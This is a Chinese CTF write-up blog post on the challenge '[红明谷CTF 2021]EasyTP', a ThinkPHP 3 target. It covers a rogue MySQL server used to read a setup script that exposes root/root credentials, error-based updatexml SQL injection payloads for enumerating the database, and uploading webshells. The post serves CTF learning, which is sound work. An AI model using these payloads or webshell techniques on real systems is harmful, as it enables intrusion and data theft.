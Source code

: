 ```yaml
---
title: '[红明谷CTF 2021]EasyTP'
author: Troy3e
avatar: 'https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/QQ%E5%9B%BE%E7%89%8720210427144151.jpg'
authorAbout: SteamID：888007034
authorDesc: Blizzard：TroyeSivan#51769
categories: 技术
comments: true
date: 2021-04-27 11:50:38
authorLink:
tags:
keywords:
description:
photos: https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/thumb-1920-1143941.jpg
---
```

BUU上有点问题的题目还是写一篇博客吧，网上找了找都没人写。
tp3这个链的分析在我的另一篇博客里，不过更推荐看这个：
https://mp.weixin.qq.com/s/S3Un1EM-cftFXr8hxG4qfA?fileGuid=YQ6W8dWWxRpgCVkt
了解原理之后开始做题。

开启恶意MySQL服务器，设置读取文件为/start.sh

    FLAG_PATH=/var/www/html/tp3.sql
    FLAG_MODE=M_SQL
    if [ ${ICQ_FLAG} ];then
        case $FLAG_MODE in
                "M_ECHO")
                            echo -n ${ICQ_FLAG} > ${FLAG_PATH}
                            FILE_MODE=755
                            chmod ${FILE_MODE} ${FLAG_PATH}
                            ;;
                 "M_SED")
                            #sed -i "s/flag{x*}/${ICQ_FLAG}/" ${FLAG_PATH}
                            sed -i -r "s/flag\\{.*\\}/    ${ICQ_FLAG}/" ${FLAG_PATH}
                            ;;
                 "M_SQL")
                             sed -i -r "s/flag\\{.*\\}/${ICQ_FLAG}/" ${FLAG_PATH}
                             mysql -uroot -proot < ${FLAG_PATH}
                             rm -f ${FLAG_PATH}
                             ;;
                                *)
                             ;;
               esac
                  echo [+] ICQ_FLAG OK\n    unset ICQ_FLAG\nelse\n    echo [!] no ICQ_FLAG\nfi\n

很乱，懒得整理了。总之flag在数据库里，用户名密码为root root。用户名密码为root root。用户名密码为root root。这里buu应该是将比赛时错误的环境修复过来了。（比赛时是123456

报错注入：

    updatexml(1,concat(0x7e,substr((select group_concat(schema_name) from information_schema.schemata),32,64),0x7e),1)
    //在这一步查出库是test后将poc开头那里database改为test
    updatexml(1,concat(0x7e,substr((select group_concat(table_name) from information_schema.tables where table_schema='test'),1,32),0x7e),1)
 
    updatexml(1,concat(0x7e,substr((select group_concat(column_name) from information_schema.columns where table_name='f1ag'),1,32),0x7e),1)
    //这一步无法执行，后面就知道原因了。

我在最后一步读取flag的时候一直是白屏，注了好久还是白屏，实在想不明白原因。
只能换getshell了，写个一句话，蚁剑连上发现没法操作数据库，换冰蝎，传个冰蝎马连上去：mysql://root:root@127.0.0.1:3306/mysql
然而这里直接查看flag也是看不到的，必须要导出来才能查看。

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210427154948.png)

注了一晚上结果是不能注。。。绝了

